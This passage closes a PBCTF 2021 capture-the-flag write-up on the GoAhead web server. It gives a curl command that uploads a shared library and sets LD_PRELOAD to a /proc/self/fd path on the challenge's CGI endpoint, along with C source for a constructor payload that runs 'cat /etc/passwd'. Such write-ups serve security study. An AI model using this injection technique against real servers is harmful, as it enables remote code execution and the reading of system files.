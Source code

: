 The webserver is opening the file so we may abuse the opened file descriptor and for example set the ``LD_PRELOAD=/proc/self/fd/6`` while forcing a file upload of the shared library. We can do it using the following command:

```shell
curl -v -F "data=@payload.so" -F "LD_PRELOAD=/proc/self/fd/6" http://advancement.chal.perfect.blue/cgi-bin/date
```

with `payload.so`  having the following before compiling it:

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    system("cat /etc/passwd");
}
```

However, this method have some constraints that make it hard to exploit :/ 
**1-** We have to guess the file descriptor number ( We can bruteforce it easily)
**2-** Weirdly goahead had different behaviours that I didn't really understand depending on different environements, it throws an internal server error for an unknown reason sometimes. ( Please if you manage to know why DM me )

### Conclusion:

PBCTF 2021 was really fun and hard, it had some awesome challenges that required finding a 0-day in some products in order to solve them, so it was a highly realistic CTF. Kudos to all my awesome teammates in Zer0pts that have really motivated me to be more dedicated to CTFs and learned a lot from them.
